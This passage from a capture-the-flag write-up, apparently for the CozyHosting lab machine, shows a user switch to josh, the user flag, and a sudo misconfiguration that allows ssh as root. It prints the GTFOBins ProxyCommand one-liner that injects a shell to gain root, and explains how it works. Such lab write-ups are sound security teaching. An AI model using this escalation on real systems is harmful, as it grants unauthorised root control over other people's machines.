 Nice we got the password and we can SU to the Josh user successfully now with that password. We can also grab the first flag.

```bash
app@cozyhosting:/app$ su josh
Password: 
josh@cozyhosting:/app$ id
uid=1003(josh) gid=1003(josh) groups=1003(josh)
josh@cozyhosting:/app$ cd
josh@cozyhosting:~$ ls -alh
total 40K
drwxr-x--- 4 josh josh 4.0K Oct  6 00:46 .
drwxr-xr-x 3 root root 4.0K May 18 15:03 ..
lrwxrwxrwx 1 root root    9 May 11 19:34 .bash_history -> /dev/null
-rw-r--r-- 1 josh josh  220 Jan  6  2022 .bash_logout
-rw-r--r-- 1 josh josh 3.7K Jan  6  2022 .bashrc
drwx------ 2 josh josh 4.0K May 18 14:47 .cache
-rw------- 1 josh josh   20 May 18 22:14 .lesshst
-rw-r--r-- 1 josh josh  807 Jan  6  2022 .profile
lrwxrwxrwx 1 root root    9 May 21 13:10 .psql_history -> /dev/null
drwx------ 2 josh josh 4.0K Oct  6 00:46 .ssh
-rw-r----- 1 root josh   33 Oct  3 17:35 user.txt
-rw-r--r-- 1 josh josh   39 Aug  8 10:19 .vimrc
josh@cozyhosting:~$ cat user.txt 
b57a0f7fe23....................
```

Once on the box I loaded up both Pspy64 and linpeas, did not see anything of interest there. The next thing I did was run __sudo -l__, using the password I got for the user Josh. It luckily worked and I saw the following:

```bash
josh@cozyhosting:~$ sudo -l
[sudo] password for josh: 
Matching Defaults entries for josh on localhost:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User josh may run the following commands on localhost:
    (root) /usr/bin/ssh *
```

This is definitely odd, this means that the Josh user has unrestricted privleges to run ssh as root and can specify any argument. Most likely our attack vector. When it comes to doing privlege escalation on linux binaries, I always like to check out [GTFObins](https://gtfobins.github.io/) to see if there is a solution. Interestingly enough, GTFObins has an exploit we can use in a situation such as ours.

```bash
sudo ssh -o ProxyCommand=';sh 0<&2 1>&2' x
```

This exploit first works by utilizing the __ProxyCommand__ option to establish an ssh session through an intermediary host (specified to start a session with itself in this exploit). The ProxyCommand variable is set to one argument ;sh 0<&2 1>&2. This command attempts to execute a shell with input/output redirection, this basically means we can inject a shell into the ssh process and since the process is running as root our injected shell will have root privleges.
